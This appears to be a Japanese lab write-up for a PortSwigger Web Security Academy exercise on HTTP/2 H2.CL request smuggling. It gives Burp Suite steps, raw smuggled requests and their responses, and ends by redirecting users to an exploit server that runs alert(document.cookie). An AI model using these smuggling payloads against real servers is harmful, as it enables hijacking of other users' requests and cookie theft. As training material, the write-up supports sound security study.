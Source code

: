 # H2.CL リクエストの密輸

フロントエンド サーバーは、HTTP/2 リクエストの長さが不明確であっても、HTTP/2 リクエストをダウングレードするため、このラボはリクエストの密輸に対して脆弱です。  
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling

- 1. BurpSuite を起動して、proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. GET / リクエストを send to repeater します
- 5. Setting で Repeater の Update content length のチェックボックスを外します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8b1031a6-e20f-4f61-b906-8b54d6d8a882)

* 6. 次のリクエストを 2 回送信します

```
POST / HTTP/2
Host: 0ad300ee04a9fbe8819b309f0027009a.web-security-academy.net
Content-Length: 0

SMUGGLED
```

2 回目のレスポンスにより密輸出来ていることが分かります

```
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=rdWEb1vaaMsYioROoOE6a5IyVqoUHvT2; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

- 7. ブラウザからハッキングラボのホームページ/resources にアクセスします。/resources/にリダイレクトされます。

- 8. 次のリクエストを 2 回送信します

```
POST / HTTP/2
Host: 0ad300ee04a9fbe8819b309f0027009a.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```

2 回目のレスポンスで任意の場所にリダイレクトできることが確認できます

```
HTTP/2 302 Found
Location: https://foo/resources/
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

- 9. エクスプロイトサーバに移動し、次のように入力し保存します
     ファイル名:alert(document.cookie)
     Body:alert(document.cookie)

- 10. 次のリクエストを複数回送信すると、リダイレクトサーバーにリダイレクトされてスクリプトが実行されます

```
POST / HTTP/2
Host: 0ad300ee04a9fbe8819b309f0027009a.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a4600c204c6fb5e81db2f7501e8006e.exploit-server.net
Content-Length: 5

x=1
```
